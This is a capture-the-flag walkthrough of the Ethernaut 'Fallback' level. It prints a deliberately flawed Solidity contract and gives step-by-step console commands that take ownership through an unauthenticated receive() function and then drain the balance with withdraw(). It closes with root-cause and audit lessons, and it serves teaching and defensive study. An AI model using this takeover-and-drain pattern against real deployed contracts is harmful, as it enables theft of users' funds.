

**The contract's "owner" doesn't have to be won by contributing more than 1000 ETH — contribute 0.0009 ETH to leave a record, then transfer 0.000001 ETH directly to the contract, and `receive()` will hand over `owner`, after which `withdraw()` empties the balance.** The flaw is in "who can trigger an owner change": there is a value threshold but no identity threshold.

> Environment: OpenZeppelin Ethernaut (Sepolia testnet). Solved via the browser console (F12) calling the injected `contract` instance; numeric return values are converted to readable form with `.toString()`.

## Hint: what's the goal

On entering the level, you first see the goal and hints:

> **You will beat this level if**
> 1. you claim ownership of the contract
> 2. you reduce its balance to 0
>
> Things that might help
> - How to send ether when interacting with an ABI
> - How to send ether outside of the ABI
> - Converting to and from wei/ether units (see `help()` command)
> - Fallback methods

That is: **become the contract owner**, and **reduce the contract balance to zero**.

## Contract analysis: who can become owner, and under what conditions

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Fallback {
    mapping(address => uint256) public contributions; // records each address's contribution

    address public owner;                             // current owner

    constructor() {
        owner = msg.sender;                            // deployer becomes owner
        contributions[msg.sender] = 1000 * (1 ether);  // initial contribution 1000 ETH (in wei)
    }

    modifier onlyOwner() {
        require(msg.sender == owner, "caller is not the owner");
        _;
    }

    // Accepts ETH; a single contribution must be < 0.001 ether
    function contribute() public payable {
        require(msg.value < 0.001 ether);
        contributions[msg.sender] += msg.value;
        // Once a contribution exceeds the owner's, the sender becomes the new owner
        if (contributions[msg.sender] > contributions[owner]) {
            owner = msg.sender;
        }
    }

    // Read-only; off-chain calls cost no gas
    function getContribution() public view returns (uint256) {
        return contributions[msg.sender];
    }

    // Only owner can call; transfers the whole contract balance to owner (transfer: 2300 gas)
    function withdraw() public onlyOwner {
        payable(owner).transfer(address(this).balance);
    }

    // Triggered on a plain ETH transfer: if the amount sent is > 0 and the address already has a contribution record, it immediately becomes the new owner
    receive() external payable {
        require(msg.value > 0 && contributions[msg.sender] > 0);
        owner = msg.sender;
    }
}
```

### The two paths to "become owner"

| Path | Entry point | Condition | Cost | Feasibility |
| --- | --- | --- | --- | --- |
| A: out-contribute the owner | `contribute()` | cumulative contribution > owner's **1000 ETH** (single tx < 0.001 ETH) | astronomical | unrealistic |
| B: contribute first, then transfer | `receive()` | previously contributed **any amount > 0**, and this transfer is **> 0** | under 0.001 ETH | essentially free |

The key lies in `receive()`'s two checks:

- `msg.value > 0` — merely requires "this time money was actually sent";
- `contributions[msg.sender] > 0` — merely requires "you contributed before", **with no check of identity, and no check of how much was contributed**.

So an attacker doesn't need 1000 ETH; they only need to make one tiny contribution to "knock on the door", then take the plain-transfer route. The full flow is shown in the attack path below (red branch):



## Attack steps: knock first, take over, then withdraw

Click "Generate new instance" at the bottom of the page, then press F12 to open the console and begin.

### 1. Recon the current state

First confirm who the owner is and how much the owner has contributed:

```js
await contract.owner()
```

```js
await contract.contributions('0x9****1********************').then(v => v.toString())
```

### 2. Leave a contribution record (less than 0.001 ETH)

First satisfy the "contribution is not zero" precondition:

```js
await contract.contribute.sendTransaction({ from: player, value: toWei('0.0009')})
```

Check it to confirm the contribution has landed:

```js
await contract.getContribution().then(v => v.toString())
```

### 3. Transfer directly to the contract to trigger `receive()`

Send a non-zero amount of ETH to the contract address. Both conditions are now satisfied, and `receive()` sets owner to my address:

```js
await sendTransaction({from: player, to: contract.address, value: toWei('0.000001')})
```

### 4. Confirm the takeover succeeded

```js
await contract.owner()
```

The returned address should be `player`'s address, i.e. mine.

### 5. Withdraw and submit

Drain the entire contract balance via `withdraw()`:

```js
await contract.withdraw()
```

Then return to the page and click "Submit instance"; both goals (become owner, zero the balance) have been met.

## Root cause: why `require` didn't stop it

Each guard looks "reasonable" on its own, but together they have a hole:

- `contribute()` uses a per-transaction **< 0.001 ETH** limit, which guards against an attacker out-contributing the owner's 1000 ETH with large contributions.
- But it simultaneously leaves **an arbitrarily small contribution record** for every address, and that record is exactly the only "ticket" `receive()` accepts.
- `receive()` only checks `msg.value > 0` and `contributions[msg.sender] > 0`, **with no check of caller identity, contribution amount, or count** — so spending a tiny amount to "knock", then making one plain transfer, rewrites `owner` with no authentication at all.

Both paths share the same "become owner" goal, yet the defense was added only to the expensive path (A); the cheap path (B) was left completely unguarded.

## Conclusion and takeaways

- **State-changing entry points must verify identity**: any function that can rewrite `owner` (including `receive()` / `fallback()`) should have an `onlyOwner` or equivalent authorization check, and must not rely on weak preconditions like "who contributed first / who performed some action first".
- **Per-transaction limits can't stop a combo**: doing a small operation to establish state, then triggering another unauthenticated entry point, is a common low-cost way to break a contract; during audit, trace "every state-changing entry point + its precondition state" together.
- **Every function that can receive ETH is attack surface**: `receive()`/`fallback()` is code that runs even on a plain transfer, and should be treated like any other business function, not as an "automatic payment collector".
